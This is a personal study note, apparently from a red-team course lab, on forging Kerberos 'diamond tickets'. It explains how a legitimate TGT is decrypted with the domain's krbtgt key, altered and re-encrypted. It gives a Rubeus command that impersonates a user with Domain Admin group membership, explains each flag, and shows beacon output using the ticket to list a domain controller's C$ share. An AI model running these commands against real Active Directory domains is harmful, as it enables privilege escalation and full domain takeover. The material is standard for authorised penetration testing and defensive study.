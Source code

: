```yaml
---
creation date: September 26th 2022
last modified date: September 26th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Diamond Tickets]]  
___

## Description:  
Like a golden ticket, a diamond ticket is a TGT which can be used to access any service as any user.  A golden ticket is forged completely offline, encrypted with the krbtgt hash of that domain, and then passed into a logon session for use.  Because domain controllers don't track TGTs it (or they) have legitimately issued, they will happily accept TGTs that are encrypted with its own krbtgt hash.

A diamond ticket is made by modifying the fields of a legitimate TGT that was issued by a DC.  This is achieved by requesting a TGT, decrypting it with the domain's krbtgt hash, modifying the desired fields of the ticket, then re-encrypting it.


Diamond tickets can be created with Rubeus.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1112 /groups:512 /krbkey:390b2f[...snip...]91a8aa /nowrap
```

Where:

-   `/tgtdeleg` uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.
-   `/ticketuser` is the username of the principal to impersonate.
-   `/ticketuserid` is the domain RID of that principal.  This can be obtained using a command like `powershell Get-DomainUser -Identity nlamb -Properties objectsid`.
-   `/groups` are the desired group RIDs (512 being Domain Admins).
-   `/krbkey` is the krbtgt AES256 hash.

And we can leverage it to access a resource such as the domain controller.
```
beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\nlamb.kirbi

beacon> ls \\dc-2\c$
[*] Listing: \\dc-2\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     01/20/2022 16:37:14   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     03/01/2022 16:34:27   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/25/2021 10:23:35   Shares
          dir     02/19/2021 11:49:20   System Volume Information
          dir     03/01/2022 10:51:31   Users
          dir     03/01/2022 13:14:40   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 704mb    fil     07/07/2022 08:25:04   pagefile.sys
```




___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 26th 2022 (12:35 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
